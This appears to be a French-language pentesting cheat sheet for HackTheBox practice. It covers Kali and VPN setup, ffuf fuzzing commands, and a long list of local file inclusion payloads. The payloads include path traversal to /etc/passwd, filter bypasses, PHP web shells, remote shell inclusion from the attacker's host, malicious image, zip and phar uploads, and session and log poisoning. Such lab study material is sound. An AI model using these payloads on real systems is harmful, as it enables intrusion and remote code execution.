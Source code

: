 # 1. Introduction.

# 2.1. Installation de la machine.
- Installez un systeme de gestion de machine virtuelle comme [Virtulbox](https://www.virtualbox.org/wiki/Downloads).
- Installez la machine virtuelle [Kali-linux](https://www.kali.org/get-kali/#kali-virtual-machines).
- Une fois la machine démarré, lancez les commandes : `sudo apt-get update -y` and `sudo apt-get full-upgrade -y`.

# 2.2. Installation des VPN HackTheBox

- Creez le fichier de configuration des VPN avec la commande : `mkdir -p /home/kali/.ovpnconfig`
- Déplacez-vous dans le fichier via : `cd /home/kali/.ovpnconfig/`
- Inserez vos configurations ".ovpn".
- Modifiez `.zshrc` avec la commande : `notepadqq /home/kali/.zshrc`.
- Ajoutez les lignes : 
```
# HTB VPN Shortcuts:
alias htbmachine='openvpn ~/.ovpnconfig/HTB-Machine.ovpn 1>/dev/null &'
alias htbstart='openvpn ~/.ovpnconfig/HTB-Start.ovpn 1>/dev/null &'
alias htbacademy='openvpn ~/.ovpnconfig/HTB-Academy.ovpn 1>/dev/null &'
alias sudo='sudo '
```

# 2.3. Instllation des outils
- Créez le dossier Outils : `mkdir /home/kali/Tools`
- Rendez-vous dans ce dossier : `cd Tools`
- Installez seclist : `git clone https://github.com/danielmiessler/SecLists`
- Installez gobuster : `sudo apt-get instll gobuster`


## Using Ffuf.
- Directory Fuzzing :
  - `ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ	`
- Extension Fuzzing :
  - `ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ`
- Page Fuzzing :
  - `ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php`
- Recursive Fuzzing :
  - `ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v`
- Sub-domain Fuzzing :
  - `ffuf -w /home/kali/Tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u https://FUZZ.hackthebox.eu/`
- VHost Fuzzing :
  - `ffuf -w /home/kali/Tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.academy.htb' -fs xxx`
- Parameter Fuzzing - GET :
  - `ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key -fs xxx`
- Parameter Fuzzing - POST :
  - `ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`
- Value Fuzzing :
  - `ffuf -w /home/kali/Tools/SecLists/Discovery/Web-Content/ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

```
sudo sh -c 'echo "SERVER_IP academy.htb" >> /etc/hosts'	Add DNS entry
for i in $(seq 1 1000); do echo $i >> ids.txt; done	Create Sequence Wordlist
curl http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=key' -H 'Content-Type: application/x-www-form-urlencoded'	curl w/ P
```

## File inclusion.

-  Basic LFI :
   -  `/index.php?language=/etc/passwd`
- LFI with path traversal :
  - `/index.php?language=../../../../etc/passwd`
- LFI with name prefix :
  - `/index.php?language=/../../../etc/passwd`
- LFI with approved path
  - `/index.php?language=./languages/../../../../etc/passwd`
- Bypass basic path traversal filter :
  - `/index.php?language=....//....//....//....//etc/passwd`
- Bypass filters with URL encoding :
  - `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`
- Bypass appended extension with path truncation (obsolete) :
  - `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]`
- Bypass appended extension with null byte (obsolete) :
  - `/index.php?language=../../../../etc/passwd%00`
- Read PHP with base64 filter :
  - `/index.php?language=php://filter/read=convert.base64-encode/resource=config`
- RCE with data wrapper :
  - `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`	
- RCE with input wrapper :
  - `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"`
- RCE with expect wrapper :
  - `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`
- Host web shell :
  - `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`
- Include remote PHP web shell :
  - `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`	
- Create malicious image :
  - `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`
- RCE with malicious uploaded image :
  - `/index.php?language=./profile_images/shell.gif&cmd=id`	
- Create malicious zip archive 'as jpg' :
  - `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`	
- RCE with malicious uploaded zip :
  - `/index.php?language=zip://shell.zip%23shell.php&cmd=id`	
- Create malicious phar 'as jpg' :
  - `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`	
- RCE with malicious uploaded phar :
  - `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`	
- Read PHP session parameters :
  - `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`	
- Poison PHP session with web shell :
  - `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`	
- RCE through poisoned PHP session :
  - `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`	
- Poison server log :
  - `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`	
- RCE through poisoned PHP session :
  - `/index.php?language=/var/log/apache2/access.log&cmd=id`	
